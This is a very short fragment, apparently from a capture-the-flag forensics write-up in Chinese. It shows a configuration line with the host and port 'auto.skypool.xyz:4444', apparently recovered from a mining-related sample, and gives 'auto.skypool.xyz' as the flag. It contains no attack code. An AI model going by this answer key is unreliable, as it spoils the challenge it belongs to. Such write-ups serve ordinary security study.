```plaintext
"url": "auto.skypool.xyz:4444"
```

即可得到答案

```flag
1. auto.skypool.xyz
```
